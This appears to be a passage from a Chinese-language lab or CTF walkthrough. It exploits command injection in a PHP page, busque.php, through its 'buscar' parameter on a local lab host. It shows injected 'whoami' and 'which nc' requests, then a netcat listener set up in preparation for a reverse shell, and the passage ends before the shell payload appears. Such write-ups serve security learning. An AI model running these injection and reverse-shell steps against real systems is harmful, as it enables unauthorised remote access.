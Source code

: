 ```
http://192.168.1.6/site/busque.php
```

![image-20250316214127286](assets/image-20250316214127286.png)存在该目录

添加参数buscar（源码给出的）

#### 尝试执行whoami

```
http://192.168.1.6/site/busque.php?buscar=whoami
```

![image-20250316214059876](assets/image-20250316214059876.png)成功



#### 尝试反弹shell

```
?buscar=which nc
```

![image-20250316214202307](assets/image-20250316214202307.png)存在nc

利用nc反弹shell

#### 本地开启监听

```
sudo nc -lvp 283
```

![image-20250316134930081](./assets/image-20250316134930081.png)
